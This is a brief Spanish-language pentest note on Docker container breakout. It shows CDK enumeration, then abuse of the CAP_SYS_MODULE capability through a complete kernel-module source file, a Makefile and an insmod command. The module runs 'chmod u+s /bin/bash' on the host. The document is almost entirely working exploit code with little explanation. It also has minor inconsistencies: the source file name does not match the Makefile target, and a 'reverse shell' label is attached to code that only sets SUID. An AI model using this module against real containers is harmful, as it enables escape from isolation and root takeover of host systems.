 # Docker breakout

## Enumeración con CDK

```null
root@a2d8c468a7c2:/tmp# ./cdk  eva --full
```

## Abuso de Capabilities

### CAP_SYS_MODULE

Es necesario crear un script en c para compilarlo y ejecutar comandos

* shell.c

```null
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","chmod u+s /bin/bash", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

* Makefile

```makefile
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) modules
clean:
	make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) clean
```

#### Explotación

```null
root@a2d8c468a7c2:/tmp# insmod reverse-shell.ko
```


